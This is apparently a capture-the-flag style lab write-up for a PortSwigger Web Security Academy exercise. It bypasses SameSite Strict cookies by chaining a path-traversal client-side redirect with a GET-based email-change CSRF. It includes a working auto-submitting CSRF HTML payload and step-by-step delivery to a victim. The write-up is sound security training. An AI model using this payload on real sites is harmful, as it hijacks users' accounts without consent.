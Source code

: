 # Lab: SameSite Strict bypass via client-side redirect

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

# Step 1 Find a client-side redirect

To eventually bypass the samesite strict setting I need to find a redirect happening somewhere on the webapp that is also vulnerable. I find one such vulnerability in the comment confirmation functionality on the blog. 

## Making a blog post

![image](https://user-images.githubusercontent.com/83407557/210927606-bc2c048c-3b9f-4a29-aa32-81eaa80083c2.png)

## Getting a post comment confirmation request

![image](https://user-images.githubusercontent.com/83407557/210927912-2e298213-721d-43a8-9a04-31be423f3905.png)

## Getting redirected back to the post I commented on:

![image](https://user-images.githubusercontent.com/83407557/210927988-28bf7667-149f-48bc-8180-16632476d813.png)

## Viewing the HTTP history

I can see the javascript that is being run using the postId parameter on the confirmation request:

![image](https://user-images.githubusercontent.com/83407557/210928166-1ca72916-198d-48bc-8ecb-13b521c99710.png)

```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

# Step 2 Verify /post/comment/confirmation is vulnerable

With this in mind, I want to see if I can craft a link using the confirmation page, to go to my-account instead of a blog post:

https://0a8200080305b07bc72812d6000d00af.web-security-academy.net/post/comment/confirmation?postId=../my-account

![image](https://user-images.githubusercontent.com/83407557/210930294-5ec69021-3dae-457d-af24-051a0eca7119.png)

Which goes to my account, instead of an intended blog-post:

![image](https://user-images.githubusercontent.com/83407557/210930366-99fccf8a-7fda-4de0-a026-c1cf4151bca3.png)


# Step 3 Find a CSRF vulnerability

I want to capture the change email feature

![image](https://user-images.githubusercontent.com/83407557/210930581-2074acb7-21b8-4ced-b777-91e0c5815d70.png)

And change the request method, to see if it can be done using a GET request instead of a POST request:

![image](https://user-images.githubusercontent.com/83407557/210930722-b4e3dad4-e8c0-401d-9d7b-07e24d9a3d8f.png)

I also take note of the request being sent

```
/my-account/change-email?email=test%40test.com&submit=1
```
and see that the GET request still changes my email:

![image](https://user-images.githubusercontent.com/83407557/210930884-3b63c350-0f26-4927-b90e-fd7c1d6bd706.png)

# Step 4 Create a CSRF POC

I go back into my HTTP history and find the comment confirmation page that was vulnerable:

![image](https://user-images.githubusercontent.com/83407557/210931059-6fea479a-9d32-4189-a972-579b39338182.png)

I add the GET request that I found could change the email and add it in:

![image](https://user-images.githubusercontent.com/83407557/210931155-63444946-9026-4546-ae57-c914e6e37619.png)

Then I add an auto-submit script and url encode the url, making the full payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a8200080305b07bc72812d6000d00af.web-security-academy.net/post/comment/confirmation">
      <input type="hidden" name="postId" value="&#46;&#46;&#47;my&#45;account&#47;change&#45;email&#63;email&#61;test&#64;test&#46;com&amp;submit&#61;1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
# Step 5 Host exploit on attack-server and test

First I update my email, so that I will be able to see the change if it happens:

![image](https://user-images.githubusercontent.com/83407557/210931435-4aebd9b9-3c22-4b2d-bfac-4dfaabc1881a.png)

next I upload my CSRF payload to my attack server:

![image](https://user-images.githubusercontent.com/83407557/210932201-525af4d4-656f-42a2-8faa-8a44ff6ee00e.png)

I store it and click view exploit, which changes my email:

![image](https://user-images.githubusercontent.com/83407557/210932124-77025c32-beec-4d35-a9ac-1460144fcf4e.png)

# Step 6 Send exploit to victim

I send this exploit to the victim

![image](https://user-images.githubusercontent.com/83407557/210932257-bbb1bf6a-630f-48e4-834e-8b303864b7a0.png)

which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210932310-ff672c6c-3da4-485b-888e-0c3af0f07439.png)

